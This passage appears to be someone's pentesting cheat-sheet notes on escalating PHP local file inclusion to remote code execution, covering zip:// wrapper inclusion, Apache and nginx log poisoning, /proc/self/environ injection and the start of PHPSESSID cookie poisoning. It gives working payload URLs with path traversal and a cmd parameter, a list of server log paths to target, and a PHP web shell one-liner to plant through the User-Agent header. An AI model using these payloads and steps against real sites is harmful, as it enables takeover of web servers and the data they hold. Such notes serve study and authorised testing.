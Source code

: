 http://example.com/index.php?language=zip://malicious.zip%23exec.php&cmd=id   

files inside a zip are referenced with a # sign but we have to url encode it in our request  which is %23

#### Web  log poisining (APache or nginx)
 
  https://www.hackingarticles.in/apache-log-poisoning-through-lfi/
  https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2

- In this attack we try to access the apache logs through lfi and then pass a web shell in user agent header in request
which can give us rce

- Possible injection locations

1. /var/log/apache2/access.log
2. /var/log/apache/access.log
3. /var/log/apache2/error.log
4. /var/log/apache/error.log
5. /usr/local/apache/log/error_log
6. /usr/local/apache2/log/error_log
7. /var/log/nginx/access.log
8. /var/log/nginx/error.log
9. /var/log/httpd/error_log
10. /var/log/nginx/access.log
11. /var/log/sshd.log
12. /var/log/mail  
13. /var/log/vsftpd.log.

Use this command in useragent header

whenever sending payloads in request parameters and if it fails, try url encoding it if that fails try double url encoding


> <?php system($_GET['cmd']); ?>

NOw we will add the cmd paramter in url and execute commands as follows

http://example.com/product?view=../../../../../var/log/apache2/access.log&cmd=id

#### Self environ LFI TO RCE

we can navigate to /proc/self/environ and pass php shell in user agent header just like log poisoning

if we can access apache logs then we can get a rce via user agent header.

1. get the lfi apache logs and use burp to intercept

2. Now add a php parameter shell   <?php system($_GET['c']); ?> to user agent header and forward it

3. 	NOw access that parameter and execute commands as www-data


#### PHPSESSID cookie RCE FROM LFI

> If our web app has phpsessid cookie and we have found a lfi point ,we can try cookie poisoining
